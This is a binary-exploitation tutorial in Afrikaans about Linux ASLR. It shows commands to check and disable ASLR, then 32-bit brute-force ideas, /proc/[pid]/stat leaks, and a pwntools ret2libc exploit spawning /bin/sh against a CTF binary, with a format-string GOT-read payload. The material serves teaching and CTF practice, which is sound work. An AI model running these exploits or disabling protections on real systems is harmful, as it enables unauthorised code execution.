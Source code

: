# ASLR

{{#include ../../../../banners/hacktricks-training.md}}

## Basiese Inligting

**Address Space Layout Randomization (ASLR)** is 'n sekuriteitstegniek wat in bedryfstelsels gebruik word om die **geheue adresse** wat deur stelsels en toepassingsprosesse gebruik word, te **randomiseer**. Deur dit te doen, maak dit dit aansienlik moeiliker vir 'n aanvaller om die ligging van spesifieke prosesse en data, soos die stapel, hoop en biblioteke, te voorspel, wat sekere tipes ontploffings, veral buffer oorgeloop, verminder.

### **Kontroleer ASLR Status**

Om die ASLR-status op 'n Linux-stelsel te **kontroleer**, kan jy die waarde uit die `/proc/sys/kernel/randomize_va_space` lêer lees. Die waarde wat in hierdie lêer gestoor is, bepaal die tipe ASLR wat toegepas word:

- **0**: Geen randomisering. Alles is staties.
- **1**: Konserwatiewe randomisering. Gedeelde biblioteke, stapel, mmap(), VDSO-bladsy is gerandomiseer.
- **2**: Volledige randomisering. Benewens elemente wat deur konserwatiewe randomisering gerandomiseer is, is geheue wat deur `brk()` bestuur word, gerandomiseer.

Jy kan die ASLR-status met die volgende opdrag kontroleer:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **Deaktiveer ASLR**

Om ASLR te **deaktiveer**, stel jy die waarde van `/proc/sys/kernel/randomize_va_space` op **0**. Dit is oor die algemeen nie aanbeveel om ASLR te deaktiveer buite toets- of foutopsporingstoestande nie. Hier is hoe jy dit kan deaktiveer:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
U kan ook ASLR vir 'n uitvoering deaktiveer met:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **Aktivering van ASLR**

Om ASLR te **aktiveer**, kan jy 'n waarde van **2** na die `/proc/sys/kernel/randomize_va_space` lêer skryf. Dit vereis gewoonlik wortelregte. Volledige randomisering kan gedoen word met die volgende opdrag:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **Volharding Oor Herlaaiings**

Veranderings gemaak met die `echo` opdragte is tydelik en sal teruggestel word by herlaai. Om die verandering volhardend te maak, moet jy die `/etc/sysctl.conf` lêer wysig en die volgende lyn byvoeg of aanpas:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
Na die redigering van `/etc/sysctl.conf`, pas die veranderinge toe met:
```bash
sudo sysctl -p
```
Dit sal verseker dat jou ASLR-instellings oor herlaaiings bly.

## **Bypasses**

### 32-bit brute-forcing

PaX verdeel die prosesadresruimte in **3 groepe**:

- **Kode en data** (geïnisialiseerde en nie-geïnisialiseerde): `.text`, `.data`, en `.bss` —> **16 bits** entropie in die `delta_exec` veranderlike. Hierdie veranderlike word ewekansig geïnitialiseer met elke proses en bygevoeg tot die aanvanklike adresse.
- **Geheue** toegeken deur `mmap()` en **gedeelde biblioteke** —> **16 bits**, genoem `delta_mmap`.
- **Die stapel** —> **24 bits**, verwys as `delta_stack`. Dit gebruik egter effektief **11 bits** (van die 10de tot die 20ste byte insluitend), uitgelijnd op **16 bytes** —> Dit lei tot **524,288 moontlike werklike stapeladresse**.

Die vorige data is vir 32-bit stelsels en die verminderde finale entropie maak dit moontlik om ASLR te omseil deur die uitvoering herhaaldelik te probeer totdat die uitbuiting suksesvol voltooi word.

#### Brute-force idees:

- As jy 'n groot genoeg oorgang het om 'n **groot NOP-slee voor die shellcode** te huisves, kan jy eenvoudig adresse in die stapel brute-force totdat die vloei **oor 'n deel van die NOP-slee spring**.
- 'n Ander opsie hiervoor, in die geval die oorgang nie so groot is nie en die uitbuiting plaaslik uitgevoer kan word, is om **die NOP-slee en shellcode in 'n omgewingsveranderlike** by te voeg.
- As die uitbuiting plaaslik is, kan jy probeer om die basisadres van libc te brute-force (nuttig vir 32-bit stelsels):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
- As jy 'n afstandsbediener aanval, kan jy probeer om die **adres van die `libc` funksie `usleep` te brute-force**, met 10 (byvoorbeeld) as argument. As die **bediener op 'n stadium 10s ekstra neem om te antwoord**, het jy die adres van hierdie funksie gevind.

> [!TIP]
> In 64-bit stelsels is die entropie baie hoër en dit is nie moontlik nie.

### Plaaslike Inligting (`/proc/[pid]/stat`)

Die lêer **`/proc/[pid]/stat`** van 'n proses is altyd deur almal leesbaar en dit **bevat interessante** inligting soos:

- **startcode** & **endcode**: Adresse bo en onder met die **TEXT** van die binêre
- **startstack**: Die adres van die begin van die **stack**
- **start_data** & **end_data**: Adresse bo en onder waar die **BSS** is
- **kstkesp** & **kstkeip**: Huidige **ESP** en **EIP** adresse
- **arg_start** & **arg_end**: Adresse bo en onder waar **cli argumente** is.
- **env_start** & **env_end**: Adresse bo en onder waar **env veranderlikes** is.

Daarom, as die aanvaller op dieselfde rekenaar is as die binêre wat uitgebuit word en hierdie binêre nie die oorgang van rou argumente verwag nie, maar van 'n ander **invoer wat na die lees van hierdie lêer saamgestel kan word**. Dit is moontlik vir 'n aanvaller om **'n paar adresse uit hierdie lêer te kry en offsets daaruit vir die uitbuiting te konstrueer**.

> [!TIP]
> Vir meer inligting oor hierdie lêer, kyk na [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) en soek vir `/proc/pid/stat`

### Om 'n lek te hê

- **Die uitdaging is om 'n lek te gee**

As jy 'n lek gegee word (maklike CTF-uitdagings), kan jy offsets daaruit bereken (veronderstel byvoorbeeld dat jy die presiese libc weergawe weet wat in die stelsel wat jy uitbuit, gebruik word). Hierdie voorbeeld uitbuiting is uit die [**voorbeeld hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (kyk daardie bladsy vir meer besonderhede):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
- **ret2plt**

Deur 'n buffer overflow te misbruik, sal dit moontlik wees om 'n **ret2plt** te benut om 'n adres van 'n funksie uit die libc te eksfiltreer. Kyk:

{{#ref}}
ret2plt.md
{{#endref}}

- **Format Strings Arbitrary Read**

Net soos in ret2plt, as jy 'n arbitrêre lees via 'n formaat string kwesbaarheid het, is dit moontlik om die adres van 'n **libc funksie** uit die GOT te eksfiltreer. Die volgende [**voorbeeld is van hier**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt_and_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
U kan meer inligting oor Format Strings arbitrêre lees vind in:

{{#ref}}
../../format-strings/
{{#endref}}

### Ret2ret & Ret2pop

Probeer om ASLR te omseil deur adresse binne die stapel te misbruik:

{{#ref}}
../../stack-overflow/ret2ret.md
{{#endref}}

{{#include ../../../../banners/hacktricks-training.md}}
